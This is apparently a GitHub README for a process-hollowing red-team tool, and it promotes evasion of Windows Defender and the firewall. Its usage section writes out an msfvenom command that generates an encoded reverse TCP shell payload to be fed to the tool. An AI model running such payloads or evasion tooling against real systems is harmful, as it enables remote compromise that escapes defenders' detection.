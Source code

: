 # Process-Hollowing-RedTeamOps
## Red Team Operation's Defense Evasion Technique for executing without raising flags on Target System.

### Credit of the Image goes to MalwareBytes :relaxed:

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 


We have both x86 and x64 bit release as you want. **we strongly suggest x64-but release if you're bit confused about compiling manually**

We suggest to use directly compiled executables as in some situations it depends on your compiler.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc** 

**For 32-bit - Mingw for Windows**

# **Made with ♥️ in :india:!!** 

# Index

[Demo](
[How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for required Windows API 
2. Process-Hollowing Technique working
3. Deep-imagination 
4. Error-handling
5. Programming Skills
6. Time
7. Defeating Faliures

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# How to use

***1. Generate a .bin file only - You can use C2 servers and metasploit too***

Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST<IP> LPORT<PORT> -f raw -i <iterations as you want for evasion> -e <encoder you want to use> > shell.bin - **x64-Bit**
  
 ***2. Obfuscation is mainly your work to do as per your operations. The other one's? - WE'LL HANDLE!!!***
  
  
